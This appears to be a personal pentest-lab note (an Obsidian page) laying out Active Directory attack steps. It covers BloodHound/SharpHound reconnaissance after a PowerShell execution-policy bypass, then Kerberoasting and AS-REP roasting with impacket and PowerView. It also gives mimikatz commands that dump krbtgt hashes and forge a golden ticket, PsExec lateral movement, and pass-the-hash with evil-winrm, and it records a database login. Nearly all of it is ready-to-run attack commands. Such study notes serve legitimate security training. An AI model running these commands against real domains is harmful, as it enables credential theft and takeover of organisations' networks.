 #show
<%*
const path = tp.file.folder(true).split('/');
const filename = "2_B_AD_" + path[path.length - 1];
await tp.file.rename(filename);
tR += "Part of " + "[" + "[" + "0_Lab_" + path[path.length - 2] + "]]";
-%>


# BloodHound
1. **Setup C2 (Kali)**
```bash
(sleep 15 && bloodhound)& export PS1="$PS1\[\e]0;BloodHound\a\]"; sudo -b neo4j console
```
Enter root-pw into console. Use `neo4j:wandton` as login. If this doesn't work, login to `http://localhost:7474` with `neo4j:neo4j` and change password

One must also transfer the SharpHound script or executable to the victim ([[2_fileTransfer]]). They are in `/ftphome/`

2. **Collect data (Victim)**
```powershell
powershell -ep bypass
```

```powershell
.\SharpHound.exe --CollectionMethods All
```
or
```powershell
Import-Module .\Sharphound.ps1; Invoke-BloodHound -CollectionMethod All -OutputDirectory $dir
```
(Both gather all data except for local group policies.)

When done, transfer the .zip to kali ([[2_fileTransfer]])

3. **Analyze data (Kali)**
	1. In the Web-Interface, use the "Upload Data" function to upload the .zip
	2. Click the "More Info" tab on the top left. Change to tab "Analysis"
	3. Enter `MATCH (m:Computer) RETURN m` as raw query on the bottom. Right-click the node and select "Mark as Owned"
	4. Same for `m:User`
	5. Run the following analysis:
		1. _Shortest Paths to Domain Admins from Owned Principals_
		2. _Find Workstations where Domain Users can RDP_
		3. _Find Servers where Domain Users can RDP_
		4. _Find Computers where Domain Users are Local Admin_
	6. Check Relation-Ships with `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`
	Tips: Use the Control-Key to show information about all nodes. Look for the "?" Help menu, it also contains abuse possibilities.

# Yet-to-test attacks

##### Kerberoast
```powershell
impacket-GetUserSPNs -request -outputfile kerbi.txt -target-domain $domain -dc-ip $hip domain/username:password
```
##### ASREPRoasting
Find users that don't require preauth
1. Bruteforce user names or
   ```powershell
   Get-DomainUser -PreauthNotRequired -Verbose | ft
   ```
   (PowerView_dev.ps1)
2. 
   ```bash
   python3 ~/tools/impacket/build/scripts-3.11/GetNPUsers.py -dc-host $hip -no-pass -usersfile users.txt $dnsserver -o asrep.hashes
   ```
3.  Use hashcat with -m 18200

##### Request SPN Tickets
```powershell
Get-DomainUser -Identity $user | Get-DomainSPNTicket | select -ExpandProperty Hash
```
(PowerView.ps1)

##### Golden Ticket with mimikatz
Enter mimikatz
```
privilege::debug
```
Save Domain ID (sid), Primary NTLM
```
lsadump::lsa /inject /name:krbtgt
```
Create Golden Ticket (saved to ticket.kirbi)
```
kerberos::golden /user:Administrator /domain:%dns% /sid:%sid% /krbtgt:%ntlm% /id:500
```
Open a CMD with elevated privileges to all machines
```
misc::cmd
```
Runs cmd.exe on $machine (Needs PsExec.exe - you can scp) 
```powershell
PsExec.exe \\$machine cmd.exe
```

##### Pass-The-Hash Attack
```
evil-winrm -i $hip -u $user -H $hash
```
